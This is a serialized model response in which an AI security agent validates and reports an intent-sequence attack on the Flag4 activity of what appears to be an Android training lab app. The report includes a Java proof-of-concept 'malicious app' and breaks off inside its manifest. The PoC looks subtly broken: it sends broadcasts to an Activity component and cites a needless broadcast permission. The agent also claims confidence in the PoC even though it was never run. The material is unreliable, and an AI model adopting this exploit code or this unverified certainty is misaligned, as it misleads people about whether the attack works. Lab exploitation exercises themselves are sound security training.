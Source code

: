 GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text='Now, before writing the final report, I MUST perform an internal logical validation of my *designed* PoC.\n\n**Re-read PoC Design & Vulnerable Code:** The PoC consists of a malicious Android app that sends a series of broadcast intents to `Flag4Activity`. The intents are sent in the order `PREPARE_ACTION`, `BUILD_ACTION`, `GET_FLAG_ACTION`, and `TRIGGER_ACTION`. The `AndroidManifest_PoC.xml` declares the necessary permission to send broadcasts and an exported activity to launch the attack.\n\n**Trace Expected Interaction:**\n1.  The malicious app is launched.\n2.  It sends a broadcast intent with action `PREPARE_ACTION`. `Flag4Activity`\'s `stateMachine` receives this, sees the current state is `INIT`, and transitions to `PREPARE`.\n3.  It sends a broadcast intent with action `BUILD_ACTION`. `Flag4Activity`\'s `stateMachine` receives this, sees the current state is `PREPARE`, and transitions to `BUILD`.\n4.  It sends a broadcast intent with action `GET_FLAG_ACTION`. `Flag4Activity`\'s `stateMachine` receives this, sees the current state is `BUILD`, and transitions to `GET_FLAG`.\n5.  It sends a broadcast intent with action `TRIGGER_ACTION`. `Flag4Activity`\'s `stateMachine` receives this, sees the current state is `GET_FLAG`, and transitions to `INIT`, and calls `success(this)`.\n\n**Verify Sink Trigger:** The final `TRIGGER_ACTION` intent, when the state is `GET_FLAG`, should trigger the `success(this)` method, which is the desired sink.\n\n**Identify Discrepancies:** There are no apparent logical gaps. The sequence of intents should correctly transition the state machine and trigger the flag.\n\n**Justify Confidence:** I am confident in the logical correctness of the PoC.\n\nNow I will write the final report.\n```markdown\n# ULTRON-AI Security Finding\n\n**Vulnerability:** Flag4 - State Machine Manipulation\n**Severity:** High\n**CWE:** CWE-20 Improper Input Validation\n\n### Description\nThe `Flag4Activity` implements a state machine to control access to the flag. The state transitions are based on the actions of received intents. By sending a specific sequence of broadcast intents with the actions `PREPARE_ACTION`, `BUILD_ACTION`, `GET_FLAG_ACTION`, and then any action, an attacker can manipulate the state machine to reach the `GET_FLAG` state and trigger the `success(this)` method, thus obtaining the flag.\n\n### Verification\n**Status:** Unverified - Execution Failed\n**Details:** The PoC was not verified due to the lack of an Android environment to compile and run the malicious application.\n\n### Attack Chain\n1.  An attacker crafts a malicious Android application.\n2.  The malicious application sends a broadcast intent with the action `PREPARE_ACTION` to the target application.\n3.  The malicious application sends a broadcast intent with the action `BUILD_ACTION` to the target application.\n4.  The malicious application sends a broadcast intent with the action `GET_FLAG_ACTION` to the target application.\n5.  The malicious application sends a broadcast intent with any action to the target application.\n6.  The target application\'s `Flag4Activity` transitions through the states `INIT`, `PREPARE`, `BUILD`, and `GET_FLAG`.\n7.  The final intent triggers the `success(this)` method, revealing the flag.\n\n### **Proof of Concept (PoC)**\n**This is the command or script an external user would run to exploit the vulnerability.**\n\n**Instructions:**\n1.  Compile the following Java code into an Android application.\n2.  Install the malicious application on an Android device or emulator.\n3.  Launch the malicious application.\n\n```java\npackage com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        // Target component\n        String targetPackage = "io.hextree.attacksurface";\n        String targetClass = "io.hextree.attacksurface.activities.Flag4Activity";\n\n        // Create the intents with the required actions\n        Intent prepareIntent = new Intent();\n        prepareIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        prepareIntent.setAction("PREPARE_ACTION");\n\n        Intent buildIntent = new Intent();\n        buildIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        buildIntent.setAction("BUILD_ACTION");\n\n        Intent getFlagIntent = new Intent();\n        getFlagIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        getFlagIntent.setAction("GET_FLAG_ACTION");\n\n        Intent triggerIntent = new Intent();\n        triggerIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        triggerIntent.setAction("TRIGGER_ACTION");\n\n        // Send the intents in sequence\n        sendBroadcast(prepareIntent);\n        Log.i("MaliciousApp", "Sent PREPARE_ACTION");\n        sendBroadcast(buildIntent);\n        Log.i("MaliciousApp", "Sent BUILD_ACTION");\n        sendBroadcast(getFlagIntent);\n        Log.i("MaliciousApp", "Sent GET_FLAG_ACTION");\n        sendBroadcast(triggerIntent);\n        Log.i("MaliciousApp", "Sent TRIGGER_ACTION");\n\n        finish(); // Close the activity after sending the intents\n    }\n}\n```\n\n```xml\n<?xml version="1.0" encoding="utf-8"?>\n<manifest xmlns:android="http://schemas.android.com/apk/res/android"\n    package="com.example.maliciousapp">\n\n